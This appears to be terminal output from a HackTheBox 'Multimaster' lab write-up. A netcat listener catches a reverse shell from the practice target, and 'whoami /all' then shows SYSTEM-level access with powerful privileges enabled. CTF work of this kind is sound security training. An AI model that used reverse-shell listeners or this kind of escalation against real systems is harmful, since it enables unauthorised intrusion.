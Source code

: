 ```text
zweilos@kalimaa:~/htb/multimaster$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.179] 49763
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                                             Attributes                                        
========================================== ================ =============================================================== ==================================================
Mandatory Label\System Mandatory Level     Label            S-1-16-16384                                                                                                      
Everyone                                   Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                                    Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group
NT SERVICE\VSS                             Well-known group S-1-5-80-3195062495-2862850656-3724129271-1847284719-4038691091 Enabled by default, Enabled group, Group owner    
LOCAL                                      Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544                                                    Enabled by default, Enabled group, Group owner    


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
```